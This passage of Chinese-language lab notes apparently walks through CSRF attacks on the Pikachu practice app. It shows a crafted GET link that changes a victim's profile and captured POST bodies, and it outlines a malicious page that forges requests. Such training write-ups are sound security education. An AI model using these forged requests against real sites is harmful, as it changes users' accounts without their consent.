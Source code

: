 ```
GET /pikachu/vul/csrf/csrfget/csrf_get_edit.php?sex=girl&phonenum=18656565545&add=Chinese&email=lili%40pikachu.com&submit=submit HTTP/1.1
```

### 构造链接

- 直接在下面链接中修改信息
- 然后直接在浏览器中打开
- 会自动跳转到修改页面
- 可以看到我们修改后的信息

```
192.168.81.135/pikachu/vul/csrf/csrfget/csrf_get_edit.php?sex=girl&phonenum=18656565545&add=中国&email=lili%40pikachu.com&submit=submit HTTP/1.1
```

![image-20220123220510987](https://gitee.com/xxb667/img/raw/master/img/image-20220123220510987.png)

## 3.3.CSRF（post）

### 概念

- 相比get型， post型提交相对安全一些
- 但是如果存在CSRF漏洞 那也是没有用的
- 例如
  - 攻击者在修改信息处抓到用于编辑用户信息的地址

比如：

```
http://www.xxx.com/pikachu/vul/csrf/csrfpost/csrf_post_edit.php
```

- 攻击者构造一个恶意网页

- 当用户访问该页面后

- 相当于模拟用户完成了一次POST操作

  

### 抓包

抓到的信息

发现地址被加密了

```
sex=girl&phonenum=18656565545&add=%E5%8C%97%E4%BA%AC1&email=lili%40pikachu.com&submit=submit
```

![image-20220123221017160](https://gitee.com/xxb667/img/raw/master/img/image-20220123221017160.png)



### 直接修改
